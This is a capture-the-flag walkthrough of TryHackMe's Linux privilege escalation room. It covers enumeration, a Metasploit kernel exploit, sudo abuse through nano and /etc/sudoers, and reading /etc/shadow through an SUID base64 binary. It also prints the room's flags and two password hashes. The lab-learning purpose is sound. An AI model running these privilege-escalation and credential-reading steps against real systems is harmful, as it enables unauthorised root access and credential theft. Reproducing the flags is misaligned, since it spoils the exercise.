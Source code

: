 # [Linux Privilege Escalation - TryHackMe](https://tryhackme.com/room/linprivesc) | Cya-nyde

Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.

## Credits

- Room created by [tryhackme](https://tryhackme.com/p/tryhackme) and [1337rce](https://tryhackme.com/p/1337rce)
- Room type: Free

## Enumeration

**Low-priv credentials for box:**

- Username: karen
- Password: Password1

### What is the hostname of the target system?

> `uname -a` returns us <code>Linux **wade7363** 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux</code>

### What is the Linux kernel version of the target system?

> Our `uname -a` command also gave us **Linux 3.13.0-24-generic**

### What Linux is this?

> `cat /etc/issue` to see <code>**Ubuntu 14.04** LTS \n \l</code>

### What version of Python language is installed on the system?

> `python --version` returns **Python 2.7.6**

### What vulnerability seem to affect the kernel of the target system?

> A quick google search of our kernel version *Linux 3.13.0* give us **CVE-2015-1328**

## Kernel Exploits

- `msfconsole` to open MetaSploit and `use scanner/ssh/ssh_login`
- Set all options appropriately including the provided credentials
- `exploit` the target and it should give you a backgrounded SSH session
- `search CVE-2015-1328` to find the module for our kernel exploit
- Set options appropriately - **be sure to use your VPN IP** for LOCALHOST
- `exploit` target to get root on the system

### What is the content of the flag1.txt file?

- Use `locate flag1.txt` to find the flag

> <details><summary><code>cat /home/matt/flag1.txt</code> gives us </summary>THM-28392872729920</details>

## Sudo

### How many programs can the user "karen" run on the target system with sudo rights?

> `sudo -l` gives us **3** binaries that the user *karen* is allowed to run as sudo on the machine

- /usr/bin/find
- /usr/bin/less
- /usr/bin/nano

### What is the content of the flag2.txt file?

- Use GTFObins on each of these binaries to try and escalate privileges
    - Try nano first, since it lets you directly edit text
    - Let's see if we can use nano to add ourselves as a sudoer
    - Since we have sudo access to nano, we can `sudo nano /etc/sudoers` and add the line `karen ALL=(ALL:ALL) ALL` to give ourselves root access on the machine
- After gaining root, `find / -name flag2.txt` shows us where flag2 is located

> <details><summary><code>cat /home/ubuntu/flag2.txt</code> to get </summary>THM-402028394</details>

### How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

GTFObins has a one-liner that allows you to run commands in nmap as sudo (if you have rights to run the script as sudo):

> `sudo namp --interactive`

### What is the hash of frank's password?

- As root, we can `cat /etc/shadow` to show us the password hashes of every user

> Frank's hash is: `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1`

## SUID

### Which user shares the name of a great comic book writer?

- The user karen is allowed to cat `/etc/passwd`, showing a list of users

> The user that immediately stands out is **gerryconway**.

### What is the password of user2?

- Used `find / -type f -perm -04000 -ls 2>/dev/null`, to get a list of binaries with SUID bits set
- Out of the ones listed, many are stored in the /snap directory, which will likely not be useful
    - `/usr/bin/base64` is the only binary that has a SUID bit set and is not in a snap directory that has a listing in GTFOBins for an SUID bit
- Used base64 to encode then decode /etc/shadow
    - `base64 /etc/shadow | base64 --decode`
    - We get this password hash for user2: `$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/`
- We can crack user2's hash using hashcat